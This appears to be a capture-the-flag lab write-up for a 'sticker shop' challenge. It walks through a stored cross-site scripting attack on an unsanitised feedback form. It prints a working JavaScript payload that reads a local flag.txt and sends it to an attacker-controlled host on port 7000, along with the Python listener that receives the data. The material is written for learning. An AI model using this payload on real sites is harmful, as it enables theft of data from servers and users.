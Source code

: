 ## Target Info

![sticker shop screenshot](./screenshots/sticker-shop01.png)


## Mission
Steal the contents of `http://10.10.197.209:8080/flag.txt`

## Performance

### Go to `http://10.10.197.209:8080/flag.txt`
The result is 401 unauthorized. 

![sticker shop screenshot](./screenshots/sticker-shop02.png)

### Browse the site homepage and discover a “Feedback” page
The feedback page presents a simple text area and “Submit” button, with no input sanitization.

![sticker shop screenshot](./screenshots/sticker-shop03.png)

### Craft the XXS payload
The script will read the local /flag.txt file and send it to the attacker host aka my machine.

    <script>
    fetch('http://127.0.0.1:8080/flag.txt')
      .then(response => response.text())
      .then(data => {
        fetch("http://10.10.15.220:7000/?flag=" + encodeURIComponent(data));
      });
    </script>

What is the code trying to do?
- Fetch the flag: fetch('http://127.0.0.1:8080/flag.txt') makes an HTTP request to http://127.0.0.1:8080/flag.txt to retrieve the contents of “flag.txt.”

- Read the response as text: Once the request succeeds, .then(response => response.text()) extracts the body of the response as plain text (stored in the variable data).

- Send the flag to my machine: finally, the snippet attempts to send that text (data) to http://10.10.15.220:7000/ by adding it as a query parameter in the URL: fetch("http://10.10.15.220:7000/?flag=" + encodeURIComponent(data));
- Using encodeURIComponent(...) ensures special characters (like spaces or symbols) in data are properly encoded so they don’t break the URL.

### Set up the listener (a simple HTTP server) on my machine

    root@ip-10-10-15-220:~# python3 -m http.server 7000
    Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...

The Python HTTP server command prints every incoming GET request (including its full URL and query string) to my terminal so I can see the exfiltrated flag.

### Submit the payload

Copy and paste the payload into the feedback textarea => Click Submit.

### Find the flag

After submitting the script, the listener will recieve the flag!

![sticker shop screenshot](./screenshots/sticker-shop05.png)
